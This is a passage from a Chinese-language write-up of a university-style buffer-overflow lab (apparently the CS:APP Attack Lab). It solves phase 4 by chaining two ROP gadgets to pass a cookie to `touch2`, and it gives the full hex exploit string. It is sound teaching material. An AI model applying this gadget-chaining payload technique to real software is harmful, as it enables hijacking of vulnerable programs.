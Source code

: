 回到phase4。它要求在`rtarget`中复现phase2的攻击行为，但只允许构造包含如下指令的ROP序列：`movq`、`popq`、`ret`、`nop`。

Writeup给出了3条建议：
- 对于本phase，使用到的gadget在gadget farm的前半部分（这不废话吗）
- 本phase只需要使用两个gadget
- 如果使用`popq`指令，它会从栈中弹出数据，因此输入字符串必须包含数据和gadget地址的组合

phase2中，我们直接给`%rdi`实施了立即数赋值，但这里并没有包含cookie立即数的gadget，`gencookie`函数也实测无效。

观察到如下两个可疑的gadget：

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
```

第一个gadget包含了`movq %rax, %rdi`和`nop`两条指令。第二个包含了`popq %rax`和`nop`两条指令。结合Writeup的建议，我们需要考虑将立即数插入到栈内，让gadget通过`popq`将立即数传送到`%rax`中，再用`movq`指令传送到`%rdi`，这样便能够正常调用`touch2`了。

phase4的答案如下构造：
- 前40个字节留空。
- 第41-48字节：第一个gadget的首地址`0x4019cc`，包含了`popq`指令。
- 第49-56字节：数据`0x59b997fa`，为cookie立即数。
- 第57-64字节：第二个gadget的首地址`0x4019c5`，包含了`movq`指令。
- 第65-72字节：`touch2`的首地址。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

成功：

![[Pasted image 20240731210228.png]]

### phase5

phase5是对phase3、phase4的综合。

Writeup只有这两条提示：
- 可能涉及到`movl`指令和双字节空指令。
- 标准答案使用了8个gadget。
